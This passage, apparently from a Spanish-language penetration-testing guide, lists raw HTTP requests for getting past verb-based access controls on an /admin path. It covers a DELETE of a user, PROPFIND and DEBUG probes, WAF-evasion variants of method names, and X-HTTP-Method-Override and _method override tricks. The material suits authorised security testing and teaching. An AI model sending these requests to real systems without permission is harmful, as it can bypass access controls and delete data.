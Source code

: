```http
# Test con DELETE
DELETE /admin/users/1 HTTP/1.1
Host: target.com
```

#### 2.3 Testing con Métodos No Estándar
```http
# Test PROPFIND
PROPFIND /admin HTTP/1.1
Host: target.com
Depth: 1
Content-Length: 0
```

```http
# Test DEBUG
DEBUG /admin HTTP/1.1
Host: target.com
Command: stop-debug
```

### Fase 3: Bypass Avanzado

#### 3.1 Bypass de WAF
```http
# Método con espacios adicionales
GET  /admin HTTP/1.1
Host: target.com
```

```http
# Método en minúsculas
get /admin HTTP/1.1
Host: target.com
```

```http
# Método mixto
Get /admin HTTP/1.1
Host: target.com
```

#### 3.2 Override de Métodos
```http
# X-HTTP-Method-Override
POST /admin HTTP/1.1
Host: target.com
X-HTTP-Method-Override: PUT
Content-Length: 0
```

```http
# _method parameter
POST /admin HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

_method=DELETE
```

---